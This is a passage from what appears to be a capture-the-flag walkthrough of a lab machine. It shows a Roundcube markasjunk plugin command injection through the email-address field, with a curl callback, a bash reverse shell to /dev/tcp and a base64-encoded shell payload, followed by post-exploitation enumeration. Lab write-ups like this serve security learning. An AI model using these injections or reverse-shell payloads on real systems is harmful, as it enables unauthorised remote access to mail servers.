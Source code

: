 https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/

## Foothold

Following an article for remote code execution on markasjunk plugin we can execute commands by changing the email address of a user by using `${IFS}` which is a variable in bash that represents a space, tab and a new line character

```
admin&curl${IFS}10.8.0.136&@hybrid.vl
```

<img src="https://i.imgur.com/2vbUYXL.png"/>

Now mark any email as junk

<img src="https://i.imgur.com/BykF7ZY.png"/>

We'll get a callback on our listener, so the commands are getting executed

<img src="https://i.imgur.com/TsPEYWd.png"/>

We can get a reverse shell by base64 encoding the payload

```bash
bash -i >& /dev/tcp/10.8.0.136/2222 0>&1

admin&echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuMTM2LzIyMjIgMD4mMQo=${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash&@hybrid.vl
```

<img src="https://i.imgur.com/tPL8SG1.png"/>

On doing the same procedure, we'll get a reverse shell as `www-data`

<img src="https://i.imgur.com/Mta7ypq.png"/>

In `/home` we only see one user which is a domain user, `peter.turner`, I tried switching to peter by using his roudcube password but it didn't worked

<img src="https://i.imgur.com/dzQyZZ8.png"/>

I tried cracking the password of `privkey.pem` but it took a long time so I decided to give up on that

<img src="https://i.imgur.com/mxeGwrl.png"/>

Reading `/etc/exports` file, we can see there's no `no_root_squash` so we cannot place bash binary owned by root user 

<img src="https://i.imgur.com/KjmOZhX.png"/>

We know there's peter.turner on the victim machine with the id `902601108`

<img src="https://i.imgur.com/rbXIBBC.png"/>
